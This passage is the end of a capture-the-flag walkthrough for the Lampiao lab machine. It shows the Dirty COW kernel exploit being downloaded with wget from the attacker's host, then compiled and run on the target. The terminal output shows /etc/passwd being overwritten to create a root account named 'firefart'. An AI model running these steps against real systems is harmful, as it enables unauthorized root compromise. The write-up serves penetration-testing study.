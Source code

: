 LinPEAS finds that this is an outdated version and it vulnerable to the DIrty Cow kernel exploit.

Lets try it.

We can copy over dirtycow.c the same way we tranferred LinPEAS and compile it on the target:

```text
www-data@lampiao:/tmp$ wget http://192.168.45.158/dirtycow.c
--2023-09-28 14:20:25--  http://192.168.45.158/dirtycow.c
Connecting to 192.168.45.158:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4814 (4.7K) [text/x-csrc]
Saving to: 'dirtycow.c'

100%[======================================>] 4,814       --.-K/s   in 0.006s  

2023-09-28 14:20:25 (750 KB/s) - 'dirtycow.c' saved [4814/4814]

www-data@lampiao:/tmp$ gcc -pthread dirtycow.c -o dirty -lcrypt
www-data@lampiao:/tmp$ chmod +x dirty
www-data@lampiao:/tmp$ ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:
firefart:fi1IpG9ta02N.:0:0:pwned:/root:/bin/bash

mmap: b77b1000
^C
www-data@lampiao:/tmp$ su firefart
Password: 
firefart@lampiao:/tmp# whoami
firefart
firefart@lampiao:/tmp# id
uid=0(firefart) gid=0(root) groups=0(root)
```

We can now grab the final flag:

![root_flag.png](../assets/lampiao_assets/root_flag.png)

Thanks for following along!

-Ryan

-----------------------------------------------------


